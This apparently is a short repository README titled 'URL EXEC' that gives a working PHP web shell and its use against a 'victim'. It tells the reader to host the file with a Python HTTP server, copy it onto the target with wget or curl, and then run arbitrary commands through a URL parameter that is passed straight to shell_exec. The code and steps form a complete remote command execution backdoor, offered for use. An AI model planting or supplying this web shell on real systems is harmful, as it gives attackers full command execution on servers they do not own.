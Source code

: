 # URL EXEC
This script works as it follows:
1. You introduce the script called ```1.php``` onto the system via a http python server and the commands wget and curl, for example:

>> python3 -m http.server 8888

2. From a web browser, or via command line (using the command mentioned above curl) you can execute the script using the url:

>> http://<victim_ip_address>/1.php?exec=<command_to_run>

3. The command run will be shown in the screen.

The code we have done for this script is the following:

```php
<?php
    $command=$_GET['exec'];

    $output = shell_exec($command);
    echo "<pre>$output</pre>";
?>
```
